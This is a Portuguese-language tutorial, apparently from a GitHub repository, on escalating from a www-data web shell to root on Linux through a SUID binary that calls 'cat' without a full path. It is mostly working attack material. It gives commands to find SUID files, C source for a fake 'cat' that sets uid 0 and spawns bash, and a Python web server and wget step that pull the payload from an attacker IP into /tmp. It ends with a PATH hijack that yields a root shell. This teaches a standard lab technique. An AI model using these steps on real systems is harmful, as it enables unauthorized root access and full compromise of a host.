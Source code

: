 ## Escalação de privilégios via binário SUID

Considere um cenário de pós-exploração web após obter uma shell do usuário www-data (sem privilégios).

É necessário buscar por binários SUID
```
find / -perm -4000 2>&-
```
![image](https://user-images.githubusercontent.com/76706456/180345179-c5a19806-54b8-48e8-a2fb-fb42267b07be.png)

Observe na imagem acima que há um binário chamado "script" em /arquivos

Ao executar, ele utiliza o cat para tentar abrir um arquivo inexistente no sistema
![image](https://user-images.githubusercontent.com/76706456/180345380-408e3c33-3ac8-43fb-88cd-7302a2d35706.png)

Neste caso, como o binário "script" é executado como root, ao executar o cat ele o faz com as mesmas permissões. Usaremos essa peculiaridade para escalar nosso privilégio.

Em sua máquina, crie o arquivo cat.c
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void main()
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
}
```
Compile na mesma arquitetura do servidor alvo (**-m32** para sistemas 32 bits)
```
gcc -m32 cat.c -o cat
```
Será gerado um binário chamado **cat**, que chamaremos de cat "falso", uma vez que ele será executado no lugar do original.

Transfira o cat "falso" para o servidor, podemos iniciar um web server na nossa máquina e baixar no servidor alvo (lembre-se de realizar o wget em um diretório que o usuário www-data possua permissões de escrita)
```
python3 -m http.server 80
```
Faremos o download no diretório /tmp
```
cd /tmp;wget http://192.168.0.2/cat
```
Dê permissões ao cat "falso"
```
chmod 755 cat
```
Vamos ver qual é o PATH atual (diretório em que se encontram os binários do sistema)
```
echo $PATH
```
Vamos até o diretório em que se encontra o binário SUID
```
cd /arquivos
```
Vamos redefinir o caminho do PATH, apontando para o diretório em que foi realizado o wget do nosso cat "falso"
```
PATH="/tmp"
```
Agora execute o binário e observe que será obtido root (isso ocorre pois o binário SUID está executando como root o nosso cat "falso", que por sua vez spawna um novo bash)
```
./script
```
Redefina o PATH conforme visto anteriormente para conseguirmos utilizar todos os binários do sistema
```
PATH="/usr/local/bin:/usr/bin:/bin"
```

Observe que foi obtido acesso root:

![image](https://user-images.githubusercontent.com/76706456/180348567-8bd50b1a-b5fe-47d4-81a4-f45aecc46623.png)
